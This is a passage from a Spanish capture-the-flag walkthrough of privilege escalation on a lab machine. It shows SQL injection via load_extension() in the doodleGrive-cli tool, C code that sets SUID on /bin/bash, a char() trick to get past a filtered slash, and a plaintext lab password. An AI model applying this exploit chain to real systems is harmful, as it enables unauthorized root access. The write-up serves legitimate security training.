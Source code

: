 ~~~bash
'UPDATE accounts_customuser SE T is_active=1 WHERE username=""+load_extension()+"";'
~~~

- Y si lo hacemos de esta manera, vemos que nos interpreta la función `load_extension()`:

~~~bash
doodleGrive cli beta-2.2: 
1. Show users list and info
2. Show groups list
3. Check server health and status
4. Show server requests log (last 1000 request)
5. activate user account
6. Exit
Select option: 5
Enter username to activate account: "+load_extension()+"
Activating account for user '"+load_extension()+"'...
Error: wrong number of arguments to function load_extension()
~~~

- Nos crearemos un script llamado `exploit.c`, con una función que se llamará como la buscará `load_extension()` cuando la llamemos a ejecución:

~~~C
#include <stdio.h>
#include <stdlib.h>
void sqlite_a_init() {
    setuid(0);
    setgid(0);
    system("chmod u+s /bin/bash");
}
~~~

- Y lo compilamos de la siguiente manera:

~~~bash
tom@drive:~$ gcc -shared -fPIC -o a.so exploit.c
tom@drive:~$ ls
doodleGrive-cli  exploit.c  a.so  README.txt  user.txt
~~~

- Una vez hecho esto, lo que tendríamos que hacer sería cargar nuestro payload, ya que tenemos que escribir `./a` y la diagonal es un bad-char, podemos utilizar char y añadir los valores en ASCII:

~~~bash
"+load_extension(char(46,47,97))+"
~~~

- Y si todo sale bien, deberíamos obtener una shell como root:

~~~bash
tom@drive:~$ ./doodleGrive-cli 
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
moriarty
Enter password for moriarty:
findMeIfY0uC@nMr.Holmz!
Welcome...!

doodleGrive cli beta-2.2: 
1. Show users list and info
2. Show groups list
3. Check server health and status
4. Show server requests log (last 1000 request)
5. activate user account
6. Exit
Select option: 5
Enter username to activate account: "+load_extension(char(46,47,97))+"
Activating account for user '"+load_extension(char(46,47,97))+"'...
~~~